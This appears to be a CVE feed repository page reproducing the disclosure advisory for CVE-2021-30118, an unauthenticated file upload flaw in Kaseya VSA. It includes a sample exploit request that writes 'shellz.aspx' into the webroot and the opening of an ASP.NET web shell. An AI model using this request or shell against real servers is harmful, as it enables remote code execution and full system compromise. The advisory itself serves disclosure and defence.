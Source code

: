 # CVE-2021-30118

- Published: 2021-07-09T14:15:00

- Modified: 2022-04-29T18:59:00

An attacker can upload files with the privilege of the Web Server process for Kaseya VSA Unified Remote Monitoring & Management (RMM) 9.5.4.2149 and subsequently use these files to execute asp commands The api /SystemTab/uploader.aspx is vulnerable to an unauthenticated arbitrary file upload leading to RCE. An attacker can upload files with the privilege of the Web Server process and subsequently use these files to execute asp commands. Detailed description --- Given the following request: ``` POST /SystemTab/uploader.aspx?Filename=shellz.aspx&PathData=C%3A%5CKaseya%5CWebPages%5C&__RequestValidationToken=ac1906a5-d511-47e3-8500-47cc4b0ec219&qqfile=shellz.aspx HTTP/1.1 Host: 192.168.1.194 Cookie: sessionId=92812726; %5F%5FRequestValidationToken=ac1906a5%2Dd511%2D47e3%2D8500%2D47cc4b0ec219 Content-Length: 12 <%@ Page Language="C#" Debug="true" validateRequest="false" %> <%@ Import namespace="System.Web.UI.WebControls" %> <%@ Import namespace="System.Diagnostics" %> <%@ Import namespace="System.IO" %> <%@ Import namespace="System" %> <%@ Import namespace="System.Data" %> <%@ Import namespace="System.Data.SqlClient" %> <%@ Import namespace="System.Security.AccessControl" %> <%@ Import namespace="System.Security.Principal" %> <%@ Import namespace="System.Collections.Generic" %> <%@ Import namespace="System.Collections" %> <script runat="server"> private const string password = "pass"; // The password ( pass ) private const string style = "dark"; // The style ( light / dark ) protected void Page_Load(object sender, EventArgs e) { //this.Remote(password); this.Login(password); this.Style(); this.ServerInfo(); <snip> ``` The attacker can control the name of the file written via the qqfile parameter and the location of the file written via the PathData parameter. Even though the call requires that a sessionId cookie is passed we have determined that the sessionId is not actually validated and any numeric value is accepted as valid. Security issues discovered --- * a sessionId cookie is required by /SystemTab/uploader.aspx, but is not actually validated, allowing an attacker to bypass authentication * /SystemTab/uploader.aspx allows an attacker to create a file with arbitrary content in any place the webserver has write access * The web server process has write access to the webroot where the attacker can execute it by requesting the URL of the newly created file. Impact --- This arbitrary file upload allows an attacker to place files of his own choosing on any location on the hard drive of the server the webserver process has access to, including (but not limited to) the webroot. If the attacker uploads files with code to the webroot (e.g. aspx code) he can then execute this code in the context of the webserver to breach either the integrity, confidentiality, or availability of the system or to steal credentials of other users. In other words, this can lead to a full system compromise.

### CVSS Score: **10**

| authentication | complexity | vector |
| --- | --- | --- |
| NONE | LOW | NETWORK |

| confidentiality | integrity | availability |
| --- | --- | --- |
| COMPLETE | COMPLETE | COMPLETE |

## References

* https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/

* https://helpdesk.kaseya.com/hc/en-gb/articles/360019054377-9-5-5-Feature-Release-10-April-2021

* https://csirt.divd.nl/CVE-2021-30118

* https://csirt.divd.nl/DIVD-2021-00011

<details>
<summary>About this repository</summary> 

  This repository is part of the project [Live Hack CVE](https://github.com/Live-Hack-CVE). Main website can be found [www.live-hack.org](https://www.live-hack.org) 
  
  Made by [Sn0wAlice](https://github.com/Sn0wAlice) for the people that care about security and need to have a feed of the latest CVEs. Hope you enjoy it, don't forget to star the repo and follow me on [Twitter](https://twitter.com/Sn0wAlice) and [Github](https://github.com/Sn0wAlice). And that is my [personnal website](https://www.alice-snow.me/)

  - [Home Page](https://github.com/Live-Hack-CVE)
  - [Framework](https://github.com/Live-Hack-CVE/cve-framework)
  - [CVE database](https://github.com/Live-Hack-CVE/full_database)
  - [Changelog](https://github.com/Live-Hack-CVE/Changelog)
</details>

## Brut File

* [CVE-2021-30118.json](https://raw.githubusercontent.com/Live-Hack-CVE/full_database/main/cves/2021/CVE-2021-30118.json)

